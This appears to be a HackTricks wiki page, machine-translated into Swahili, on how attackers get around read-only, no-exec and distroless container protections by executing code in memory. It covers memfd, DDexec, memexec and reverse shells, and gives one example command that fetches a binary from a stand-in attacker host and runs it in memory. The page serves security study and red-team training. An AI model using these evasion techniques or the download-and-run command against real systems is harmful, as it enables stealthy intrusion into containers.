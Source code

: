 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Ni kawaida zaidi na zaidi kukutana na mashine za linux zilizowekwa na **read-only (ro) file system protection**, hasa katika kontena. Hii ni kwa sababu kuendesha kontena na mfumo wa faili wa ro ni rahisi kama kuweka **`readOnlyRootFilesystem: true`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umewekwa kama ro, **`/dev/shm`** bado itaandikwa, hivyo ni uongo kwamba hatuwezi kuandika chochote kwenye diski. Hata hivyo, folda hii itakuwa **imewekwa na no-exec protection**, hivyo ikiwa utashusha binary hapa huwezi **kuweza kuitekeleza**.

{% hint style="warning" %}
Kutoka kwa mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au enumerators kama `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Kumbuka kwamba nilitaja binaries, unaweza **kutekeleza script yoyote** mradi tu mfasiri yuko ndani ya mashine, kama **shell script** ikiwa `sh` inapatikana au **python** **script** ikiwa `python` imewekwa.

Hata hivyo, hii haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazohitaji kuendesha.

## Memory Bypasses

Ikiwa unataka kutekeleza binary lakini mfumo wa faili haukuruhusu hilo, njia bora ya kufanya hivyo ni kwa **kuitekeleza kutoka kwenye kumbukumbu**, kwani **ulinzi hauwezi kutumika huko**.

### FD + exec syscall bypass

Ikiwa una injini za script zenye nguvu ndani ya mashine, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary ili kuitekeleza kutoka kwenye kumbukumbu, kuihifadhi katika file descriptor ya kumbukumbu (`create_memfd` syscall), ambayo haitalindwa na ulinzi huo na kisha kuita **`exec` syscall** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kwa urahisi kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kupitisha binary na itaunda script katika lugha iliyoonyeshwa na **binary iliyoshinikizwa na b64 encoded** na maagizo ya **kufungua na kuondoa** katika **fd** iliyoundwa kwa kuita `create_memfd` syscall na wito wa **exec** syscall kuikimbia.

{% hint style="warning" %}
Hii haiwezi kufanya kazi katika lugha nyingine za scripting kama PHP au Node kwa sababu hazina njia yoyote ya **kawaida ya kuita raw syscalls** kutoka kwa script, hivyo haiwezekani kuita `create_memfd` kuunda **memory fd** kuhifadhi binary.

Zaidi ya hayo, kuunda **fd ya kawaida** na faili katika `/dev/shm` haitafanya kazi, kwani hutaruhusiwa kuikimbia kwa sababu **no-exec protection** itatumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuruhusu **kubadilisha kumbukumbu ya mchakato wako** kwa kuandika tena **`/proc/self/mem`**.

Hivyo, **kuweza kudhibiti msimbo wa mkusanyiko** unaotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato ili **kuendesha msimbo wowote wa kawaida**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** shellcode yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Kwa maelezo zaidi kuhusu mbinu hii angalia Github au:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili inayofuata ya DDexec. Ni **DDexec shellcode demonised**, hivyo kila wakati unapotaka **kufanya kazi na binary tofauti** huwezi kuanzisha tena DDexec, unaweza tu kuendesha memexec shellcode kupitia mbinu ya DDexec na kisha **kuwasiliana na demon hii ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano wa jinsi ya kutumia **memexec kutekeleza binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa kusudi linalofanana na DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu **njia rahisi ya kupakia binaries** kwenye kumbukumbu ili baadaye kuziendesha. Inaweza hata kuruhusu kupakia binaries zenye utegemezi.

## Distroless Bypass

### Nini distroless

Mizigo ya distroless ina sehemu tu za **misingi inayohitajika ili kuendesha programu au huduma maalum**, kama vile maktaba na utegemezi wa wakati wa kuendesha, lakini inatenga sehemu kubwa kama vile meneja wa pakiti, shell, au zana za mfumo.

Lengo la mizigo ya distroless ni **kupunguza uso wa shambulio wa mizigo kwa kuondoa sehemu zisizohitajika** na kupunguza idadi ya udhaifu ambao unaweza kutumiwa.

### Reverse Shell

Katika mizigo ya distroless huenda **usipate hata `sh` au `bash`** kupata shell ya kawaida. Hutaweza pia kupata binaries kama `ls`, `whoami`, `id`... kila kitu ambacho kawaida unakifanya katika mfumo.

{% hint style="warning" %}
Hivyo, huwezi kupata **reverse shell** au **kuhesabu** mfumo kama kawaida unavyofanya.
{% endhint %}

Hata hivyo, ikiwa kontena lililovunjwa linaendesha kwa mfano flask web, basi python imewekwa, na hivyo unaweza kupata **Python reverse shell**. Ikiwa linaendesha node, unaweza kupata Node rev shell, na vivyo hivyo na lugha nyingi za **scripting**.

{% hint style="success" %}
Kwa kutumia lugha ya scripting unaweza **kuhesabu mfumo** kwa kutumia uwezo wa lugha hiyo.
{% endhint %}

Ikiwa hakuna **`read-only/no-exec`** ulinzi unaweza kutumia reverse shell yako **kuandika kwenye mfumo wa faili binaries zako** na **kuziendesha**.

{% hint style="success" %}
Hata hivyo, katika aina hii ya mizigo ulinzi huu kwa kawaida utawepo, lakini unaweza kutumia **mbinu za awali za utekelezaji wa kumbukumbu kuzipita**.
{% endhint %}

Unaweza kupata **esemples** za jinsi ya **kutumia baadhi ya udhaifu wa RCE** kupata lugha za scripting **reverse shells** na kuendesha binaries kutoka kwenye kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhackwa - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa kiswahili vizuri kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

